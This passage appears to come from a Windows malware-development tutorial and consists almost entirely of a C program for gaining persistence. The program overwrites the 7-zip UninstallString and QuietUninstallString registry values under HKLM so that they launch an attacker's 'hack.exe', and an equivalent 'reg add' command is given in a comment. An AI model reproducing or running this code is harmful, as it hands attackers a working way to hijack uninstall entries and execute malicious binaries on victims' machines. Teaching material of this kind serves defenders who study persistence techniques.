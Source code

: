 ### persistence C code 

We can use the following code c to swap the registry key :

```c 
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // target app
  const char* app = "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Uninstall\\7-zip";

  // evil app
  const char* exe = "C:\\Users\\user\\Desktop\\packtpub\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" /v "UninstallString" /t REG_SZ /d "...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UninstallString", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegSetValueEx(hkey, (LPCSTR)"QuietUninstallString", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```
